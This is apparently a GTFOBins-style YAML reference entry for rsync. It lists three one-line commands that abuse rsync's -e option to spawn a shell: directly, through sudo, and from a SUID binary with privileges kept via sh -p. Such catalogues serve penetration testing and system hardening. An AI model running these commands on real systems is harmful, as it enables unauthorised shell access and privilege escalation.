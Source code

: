 ```yaml
---
functions:
  execute-interactive:
    - code: rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
  sudo-enabled:
    - code: sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
  suid-enabled:
    - code: ./rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
---
```

